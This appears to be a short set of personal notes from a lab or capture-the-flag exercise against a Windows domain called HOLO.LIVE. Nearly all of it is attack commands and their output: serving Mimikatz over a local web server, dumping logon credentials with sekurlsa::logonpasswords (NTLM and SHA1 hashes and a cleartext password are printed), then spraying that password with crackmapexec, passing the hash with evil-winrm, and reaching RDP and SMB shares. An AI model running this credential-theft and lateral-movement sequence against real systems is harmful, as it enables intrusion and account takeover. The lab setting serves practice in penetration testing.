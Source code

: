 
Let's run Mimikatz
```
http://10.51.9.13/mimikatz/x64/
```

```
python3 -m http.server 80
```

https://book.hacktricks.xyz/windows-hardening/stealing-credentials/credentials-mimikatz

```
privilege::debug
```

```
sekurlsa::logonpasswords
```

```
Username : S-SRV01$
NTLM     : 3179c8ec65934b8d33ac9ec2a9d93400
HA1     : fb4789d7ac8f1b2a46319fcb0ae10e616bd6a399
```

```
Username : watamet
NTLM     : d8d41e6cf762a8c77776a1843d4141c9
SHA1     : 7701207008976fdd6c6be9991574e2480853312d
DPAPI    : 300d9ad961f6f680c6904ac6d0f17fd0

Username : watamet
Domain   : HOLO.LIVE
Password : Nothingtoworry!
```


![[Pasted image 20240830041056.png]]


```
crackmapexec smb 10.201.11.31 -u valid_user.txt -p Nothingtoworry!
```


```
evil-winrm -u administrator -H 3179c8ec65934b8d33ac9ec2a9d93400 -i 10.201.11.35
```


```
evil-winrm -u watamet -password Nothingtoworry! -i 10.201.11.35
```

That didn't worked but we should always try for little hanging fruits
```
rdesktop -u watamet -p Nothingtoworry! 10.201.11.30
```

Read/Write
```
crackmapexec smb 10.201.11.30 -u 'watamet' -p 'Nothingtoworry!' --shares
```
![[Pasted image 20240830043757.png]]

```
smbclient \\\\10.201.11.30\\SYSVOL -U 'watamet' 
```

-p 'Nothingtoworry!'

